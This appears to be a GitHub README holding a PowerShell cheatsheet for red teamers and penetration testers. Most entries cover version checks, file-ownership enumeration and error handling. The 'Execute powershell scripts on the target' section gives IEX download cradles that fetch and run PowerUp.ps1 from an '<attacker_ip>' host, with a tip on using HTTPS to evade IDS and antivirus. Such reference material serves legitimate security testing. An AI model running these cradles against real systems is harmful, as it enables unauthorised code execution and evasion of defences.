 # Powershell Cheatsheet - For RT / PT
## Information about this repository
Q: What is this cheatsheet supposed to be?

This is going to be my powershell cheatsheet (probably won't be the best but I hope you can take a few things from here)

Q: Who is this made for?

Made for red teamers / penetration testers / blue teamers ( / sysadmins if you really feel like it)

Q: Which versions of powershell will this be supporting?

From powershell v2 onwards (even though I will be putting things that are not supported in powershell v2).

The obligatory `please do not use this cheatsheet for any illegal or malicious activities.`

## Useful commands
### Enumeration

This will be a place for enumeration commands.

#### Checking powershell version different methods:
##### Registry
```Powershell
(Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine -Name 'PowerShellVersion').PowerShellVersio
```
##### $host Variable
```Powershell
$host.Version
```
##### Get-Host
```Powershell
(Get-Host).Version
```
##### $PSVersionTable Variable
```Powershell
$PSVersionTable.PSVersion
```

### Password / Hidden data

This will be a place for finding passwords or hidden data.

### Read / Writable files

This is going to assist you in detecting faulty permissions.
##### Get all directories with ownership
```Powershell
foreach ($file in (Get-ChildItem -Directory -Path "C:\Users" -Recurse -Force -ErrorAction SilentlyContinue)) { Get-Acl $file.FullName | Where-Object -Property Owner -eq ([System.Security.Principal.WindowsIdentity]::GetCurrent().Name) | Select -ExpandProperty Path | Convert-Path}
```
##### Short explanation: We are looping over each directory and file with Get-ChildItem, then extracting the ACLs from the file / directory and checking if the owner is the current user account with `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name`, the rest is just for prettifying and expanding.


### Execute powershell scripts on the target
##### Download from share
```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('//<attacker_ip>/share/PowerUp.ps1')
```

##### Download from http server 
```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker_ip>:8090/PowerUp.ps1')
```
##### Note: For encrypted communication and bypassing any IDS or antiviruses you could use https:// instead. 

### Misc.
#### Error handling 
```Powershell
$ErrorActionPreference = "SilentlyContinue" # / "Stop" / "Inquire" / "Continue" (Default) / "Suspend"
```

## Sources
- https://github.com/specterops/at-ps (Amazing course, very recommended)
- The interwebz
- My personal journey
- https://adamtheautomator.com/check-powershell-version/
- https://www.gngrninja.com/script-ninja/2016/6/5/powershell-getting-started-part-11-error-handling
